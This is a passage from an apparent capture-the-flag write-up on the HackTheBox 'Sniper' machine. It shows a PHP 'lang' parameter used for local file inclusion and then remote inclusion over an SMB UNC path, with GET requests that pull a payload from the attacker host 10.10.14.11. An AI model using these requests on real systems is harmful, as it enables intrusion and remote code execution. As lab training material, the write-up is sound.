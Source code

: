 As shown in the source code, it is possibly a target for an LFI or RFI since it references a PHP file.

![](/assets/images/htb-writeup-sniper/blog2.png)

## Gaining RCE through RFI in the language parameter

To test for local file inclusion I'll try including a Windows file I know exists on the target machine. Luckily for me the `lang` parameter uses the filename with the extension so I can potentially include any file, not just file with php extensions. I am able to get the content of `win.ini` with the following:

`GET /blog/?lang=/windows/win.ini`

![](/assets/images/htb-writeup-sniper/lfi1.png)

Next I try to include a remote file through HTTP with `GET /blog/?lang=http://10.10.14.11/test.php` but I didn't get a callback so I assume remote file includes are disabled or there is some filtering done on the parameter.

Even though remote file includes are disabled, using a UNC path works since it's considered a local path by PHP and I'm able to get a callback through SMB on port 445 with `GET /blog/?lang=//10.10.14.11/test/test.php`

![](/assets/images/htb-writeup-sniper/smb1.png)

I can't get impacket-smbserver working right with this box so instead I'll use the standard Samba server in Linux and create an open share: `net usershare add test /root/htb/sniper/share '' 'Everyone:F' guest_ok=y`
